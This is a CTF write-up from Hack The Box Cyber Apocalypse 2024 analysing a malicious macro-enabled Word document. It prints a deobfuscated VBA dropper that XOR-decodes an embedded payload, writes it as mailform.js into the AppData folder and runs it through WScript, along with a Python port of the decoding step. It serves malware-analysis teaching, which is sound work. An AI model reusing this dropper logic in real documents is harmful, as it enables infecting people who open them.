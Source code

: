 ```yaml
---
title: "Forensics: Game Invitation"
seoTitle: "Hack The Box CFT Cyber Apocalypse 2024 - Forensics: Game Invitation"
seoDescription: "Write-up for the Confinement challenge from HTB Cyber Apocalypse 2024. VBA macro analysis and malware deobfuscation."
datePublished: Sat Mar 16 2024 10:10:45 GMT+0000 (Coordinated Universal Time)
cuid: clttxgej7000008l936436y4u
slug: htb-cyber-apocalypse-forensics-game-invitation
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1710583252793/9804c2b2-e279-4d39-a417-4ef9fe489ca3.png
tags: malware, ethical-hacking, ctf-writeup

---
```


# Introduction

> In the bustling city of KORP™, where factions vie in The Fray, a mysterious game emerges. As a seasoned faction member, you feel the tension growing by the minute. Whispers spread of a new challenge, piquing both curiosity and wariness. Then, an email arrives: "Join The Fray: Embrace the Challenge." But lurking beneath the excitement is a nagging doubt. Could this invitation hide something more sinister within its innocent attachment?

**Type**: Forensics  
**Difficulty**: Hard  
**Event**: [**Hack The Box Cyber Apocalypse 2024: Hacker Royale**](https://ctf.hackthebox.com/event/details/cyber-apocalypse-2024-hacker-royale-1386) ([**ctftime**](https://ctftime.org/event/2255))

%%[support-cta] 

# Initial recon

Given: single DOCM file.

```plaintext
$ invitation.docm (read-only)
ce9f4c1bd44ff0a9131e63cf4f8c0ce5c1c8e4eb77bffe843a325d08b34eb9bb
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710578173550/297e0350-f9ae-4a3e-9f63-8eca7f459170.png align="center")

# Investigation

DOCM is are macro-enabled Microsoft Word document format. Analysis of this kind of files are in my opinion the most popular tasks whenever forensics category is included in CTF events. I covered two of those in my blog:

* [HTB Business CTF 2021: badRansomware](https://blog.cyberethical.me/htb-business-ctf-2021-badransomware)
    
* [HackTheBoo 2022: Halloween Invitation](https://blog.cyberethical.me/hacktheboo-2022-htb-ctf-write-ups#heading-halloween-invitation)
    

So without further ado, let's extract that VBA macro using [olevba](https://github.com/decalage2/oletools/wiki/olevba) Python script.

```plaintext
$ olevba invitation.docm
//... (output trimmed for readability)
```

# VBA macro

I will save you reading the origal, obfuscated script.

## Stage 01 (deobfuscated)

```basic
Public jspath As String
Public appdataPath As String

Function xorString(given_string() As Byte, length As Long) As Boolean
    Dim xor_key As Byte
    xor_key = 45
    For i = 0 To length - 1
        given_string(i) = given_string(i) Xor xor_key
        xor_key = ((xor_key Xor 99) Xor (i Mod 254))
    Next i
    xorString = TRUE
End Function

Dim filenumber
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
filenumber = FreeFile
Open (ActiveDocument.FullName) For Binary As #filenumber
Dim byteArray() As Byte
ReDim byteArray(file_length)
Get #filenumber, 1, byteArray
Dim convertedToUnicode As String
convertedToUnicode = StrConv(byteArray, vbUnicode)
Dim singeMatch, matches
Dim regexp
Set regexp = CreateObject("vbscript.regexp")
regexp.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
Set matches = regexp.Execute(convertedToUnicode)
Dim indexOfFirstMatch
If matches.Count = 0 Then
    GoTo lable1
End If
For Each singleMatch In matches
    indexOfFirstMatch = singleMatch.FirstIndex
    Exit For
Next
Dim secondByteArray() As Byte
Dim arbitraryLength As Long
arbitraryLength = 13082
ReDim secondByteArray(arbitraryLength)
Get #filenumber, indexOfFirstMatch + 81, secondByteArray
If Not xorString(secondByteArray(), arbitraryLength + 1) Then
    GoTo lable1
End If
appdataPath = Environ("appdata") & "\Microsoft\Windows"
Set fileSystemObject = CreateObject("Scripting.FileSystemObject")
If Not fileSystemObject.FolderExists(appdataPath) Then
    appdataPath = Environ("appdata")
End If
Set fileSystemObject = Nothing
Dim fileNumber2
fileNumber2 = FreeFile
jspath = appdataPath & "\\" & "mailform.js"
Open (jspath) For Binary As #fileNumber2
Put #fileNumber2, 1, secondByteArray
Close #fileNumber2
Erase secondByteArray
Set shellObject = CreateObject("WScript.Shell")
shellObject.Run """" + jspath + """" + " vF8rdgMHKBrvCoCp0ulm"
ActiveDocument.Save
Exit Sub
lable1:
Close #fileNumber2
ActiveDocument.Save
End If
End Sub
```

1. Read current file (DOCM) binary.
    
2. Search for the pattern in the binary data.
    
3. Run custom XORing function over the succeeding 13082 bytes.
    
4. Resulting binary data is saves as a `mailform.js`.
    
5. WScript `mailform.js` is then executed with the argument `vF8rdgMHKBrvCoCp0ulm`
    

I have transcribed the VBA into the Python script to obtain the `mailform.js`.

## Stage 01 (Python)

```python
#!/usr/bin/python
import re

def xorString(given_string, length):
    xor_key = 45
    for i in range(length):
        given_string[i] = given_string[i] ^ xor_key
        xor_key = ((xor_key ^ 99) ^ (i % 254))
    return given_string

def main():    
    with open('invitation.docm', 'rb') as docmFile:
        byteArray = bytearray(docmFile.read())
        convertedToUnicode = byteArray

        pattern = b'sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa'
        matches = re.finditer(pattern, convertedToUnicode)
        
        indexOfFirstMatch = None
        for singleMatch in matches:
            indexOfFirstMatch = singleMatch.start()
            break
        
        if indexOfFirstMatch is None:
            print('pattern not found')
            return
        
        arbitraryLength = 13082
        docmFile.seek(indexOfFirstMatch + 80)
        secondByteArray = bytearray(docmFile.read(arbitraryLength))
        
        secondByteArray = xorString(secondByteArray, arbitraryLength)
                
        with open("mailform.js", 'wb') as docmFile2:
            docmFile2.write(secondByteArray)

if __name__ == "__main__":
    main()
```

This resulted in the JS file.

## Stage 02 (`mailform.js`)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710582039879/d7c16e14-0dfd-4c97-b96f-17882bd3244d.png align="center")

Because it is a JavaScript we can leverage it **very carefuly** to let the browser decode the code for us and retrieve the next payload. Please do notice that I've marked the hazardous `eval(..)` function that has to be removed to neutralize the payload. I have replaces it with a `console.log(..)`.

> You never want any kind of `eval` or `Invoke-Expression` slip through.

## Stage 03

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710582752891/c10521d0-1f18-40b7-9316-3b2912c732d6.png align="center")

More JavaScript to deobfuscate. Unless..

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710582863874/461db9ca-4f35-4700-9a22-21dda7aaad64.png align="center")

And after decoding this in CyberChef 🎉

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710582987470/04941aaa-cb4d-4387-8f40-8f45c4308b2b.png align="center")

# Additional reading

%%[follow-cta] 

* [MITRE T1137.001 (Office Application Startup: Office Template Macros](https://attack.mitre.org/techniques/T1137/001/))
    
* [Write-up: HTB Business CTF 2021: badRansomware](https://blog.cyberethical.me/htb-business-ctf-2021-badransomware)
    
* [Write-up: HackTheBoo 2022: Halloween Invitation](https://blog.cyberethical.me/hacktheboo-2022-htb-ctf-write-ups#heading-halloween-invitation)